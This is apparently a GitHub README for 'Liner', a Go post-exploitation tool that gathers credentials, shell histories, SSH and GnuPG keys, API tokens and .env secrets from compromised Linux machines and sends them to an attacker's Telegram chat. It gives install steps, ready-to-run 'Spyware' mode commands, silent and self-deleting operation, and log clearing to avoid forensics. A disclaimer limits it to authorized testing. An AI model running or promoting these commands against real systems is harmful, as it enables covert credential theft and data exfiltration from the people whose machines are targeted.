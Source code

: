 ##  Liner - Post-Exploitation Data Exfiltration Tool via Telegram

**Liner** is a lightweight post-exploitation utility designed for rapid data collection and exfiltration from compromised Linux systems.  
It targets sensitive artifacts such as credentials, session tokens, private keys, and developer secrets, packaging and transferring them securely via Telegram bot API.

Built in Go, it supports silent operation, automated cleanup, and concurrent file transmission — making it ideal for stealthy, fast, and low-noise data exfiltration in red team operations or adversary simulation.

> ⚠️ **Disclaimer:** This tool is intended **strictly for educational and authorized security testing**. Unauthorized use is illegal and unethical.

---

### 🔧 Features

- Collects a wide range of sensitive files:
  - Stored credentials, shell histories, SSH keys, GnuPG data, API tokens, `.env` secrets, and more.
- Generates full directory tree structure for reconnaissance and documentation purposes.
- Compresses and optionally splits collected data for optimized transfer.
- Sends exfiltrated data directly to a specified Telegram chat using a bot token.
- Supports:
  - **Silent execution** (`--silent`) to suppress terminal output.
  - **Self-deletion** of the binary after successful execution to minimize footprint.
  - **Concurrent uploading** to accelerate data transmission under rate-limited environments.

---

### 📦 Requirements

Install required packages:

```bash
sudo apt install zip coreutils tree
```

Also required:

- A **Telegram bot token** ([@BotFather](https://t.me/BotFather))
- A **Telegram chat ID** (user or group)

---

### 🚀 Installation

```bash
git clone https://github.com/Nowafen/liner.git
cd liner
go build -v -o liner ./cmd

mv liner /usr/bin
chmod +x /usr/bin/liner

```

Verify installation:

```bash
liner --version
# Output: Liner version: x.x
```

---

### 🛠️ Usage

Basic syntax:

```bash
liner --mode Spyware --dump <TYPE> --token <TOKEN> --id <CHAT_ID> [options]
```

#### Required Flags

- `--mode Spyware` (only mode supported for now)
- `--dump`:  
  - `Credentials`: .git-credentials, keyrings  
  - `Password`: .bash_history, .zsh_history  
  - `Session`: .ssh, .gnupg  
  - `privateDATA`: *.env, *.pem, secrets  
  - `all`: Everything above
- `--token`: Your Telegram bot token
- `--id`: Telegram chat ID

#### Optional Flags

- `--silent`: Suppress all output
- `--version`: Show current version
- `--update`: Check for new version
- `--help`: Show help message

---

### 💡 Examples

```bash
sudo liner --mode Spyware --dump Password --token <BOT_TOKEN> --id <CHAT_ID>
```

```bash
sudo liner --mode Spyware --dump all --token <BOT_TOKEN> --id <CHAT_ID> --silent
```

---

### 🧠 How It Works

1. **Environment Validation:**  
   Ensures the target system is Linux-based before proceeding.

2. **Targeted Data Collection:**  
   Retrieves files based on the selected `--dump` category (e.g., credentials, sessions, secrets).

3. **Filesystem Mapping:**  
   Executes a recursive directory scan using `tree` to provide structural context.

4. **Data Packaging:**  
   Archives all collected data into `liner_data.zip`.  
   - If total size exceeds 48MB, archive is split into 25MB chunks for reliable transfer.

5. **Stealth Exfiltration via Telegram:**  
   Sends an initial message, directory map, and zipped payload to the configured Telegram chat using the bot API.

6. **Cleanup & Evasion:**  
   Removes temporary artifacts, clears relevant logs, and optionally self-deletes the binary to minimize forensic traces.

---

### ⚙️ Troubleshooting

- **Upload fails with `429 Too Many Requests` or times out?**  
  Telegram may be throttling API requests. Try reducing the upload concurrency in `core/telegram.go` or increase delay between sends.

- **No data received in chat?**  
  Ensure:
  - You are using a valid `--token` and `--id`
  - The specified `--dump` target contains data
  - Sufficient permissions (`sudo`) are granted

- **Split archive reassembly (receiver side):**

```bash
cat part_* > liner_data.zip
unzip liner_data.zip
```
---

### 👨‍💻 Contributing

Pull requests and issues are welcome. Let’s improve this project together.


### 📜 License

This project is **proprietary and closed-source**.  
All rights reserved © 2025 [MNM]  
Unauthorized copying, distribution, or modification of any part of this codebase is strictly prohibited.

###### For collaboration or usage inquiries, please contact: [t.me](https://t.me/mnmsec)



##### Developed by [MNM]
##### Uploaded: July 2025

